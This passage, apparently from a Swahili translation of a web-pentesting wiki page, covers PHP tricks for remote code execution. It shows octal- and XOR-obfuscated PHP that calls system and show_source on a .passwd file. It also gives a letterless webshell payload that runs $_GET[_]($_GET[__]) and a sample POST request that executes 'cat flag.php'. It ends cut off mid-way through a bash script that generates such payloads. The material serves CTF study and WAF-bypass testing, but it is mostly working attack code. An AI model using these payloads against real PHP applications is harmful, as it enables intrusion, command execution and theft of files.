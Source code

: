 Ikiwa katika ukurasa unaweza **kuunda kitu kipya cha darasa lolote** unaweza kuwa na uwezo wa kupata RCE, angalia ukurasa ufuatao kujifunza jinsi:

{% content-ref url="php-rce-abusing-object-creation-new-usd_get-a-usd_get-b.md" %}
[php-rce-abusing-object-creation-new-usd\_get-a-usd\_get-b.md](php-rce-abusing-object-creation-new-usd\_get-a-usd\_get-b.md)
{% endcontent-ref %}

## Execute PHP without letters

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Using octal
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR rahisi shell code

Kulingana na [**hii andiko** ](https://mgp25.com/ctf/Web-challenge/)ifuatayo inawezekana kuzalisha shellcode rahisi kwa njia hii:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
Hivyo, ikiwa unaweza **kutekeleza PHP isiyo na nambari na herufi** unaweza kutuma ombi kama ifuatavyo ukitumia hiyo payload kutekeleza PHP isiyo na mipaka:
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Kwa maelezo ya kina zaidi angalia [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg\_match)

### XOR Shellcode (ndani ya eval)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```
